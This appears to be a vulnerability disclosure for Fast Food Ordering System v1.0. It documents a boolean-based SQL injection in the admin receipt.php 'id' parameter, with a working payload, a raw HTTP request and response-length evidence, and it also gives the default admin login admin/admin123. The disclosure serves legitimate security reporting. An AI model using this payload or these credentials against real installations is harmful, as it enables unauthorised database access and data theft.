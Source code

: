 # Fast Food Ordering System v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15366/fast-food-ordering-system-phpoop-free-source-code.html

Vulnerability File: /ffos/admin/sales/receipt.php?id=

Vulnerability location: /ffos/admin/sales/receipt.php?id=, id

Current database name: ffos_db,length is 7

[+] Payload: /ffos/admin/sales/receipt.php?id=10%27%20and%20length(database())%20=7--+ // Leak place ---> id


```sql
GET /ffos/admin/sales/receipt.php?id=10%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=rlr2a917ahfp4mc52mm9a7kvvm
Connection: close
```

When length (database ()) = 6, Content-Length: 7417
![image](https://user-images.githubusercontent.com/54017627/171350266-476441b8-4ec7-4484-900e-420385e7b20d.png)

![image](https://user-images.githubusercontent.com/54017627/171350111-3f473473-35be-4f29-a135-f30b044cbb8f.png)

When length (database ()) = 7, Content-Length: 8389
![image](https://user-images.githubusercontent.com/54017627/171350316-85cb4819-06bc-469f-87ea-0259debbe8a2.png)

![image](https://user-images.githubusercontent.com/54017627/171350095-52faa743-321c-4bd3-8669-5652e9333db4.png)
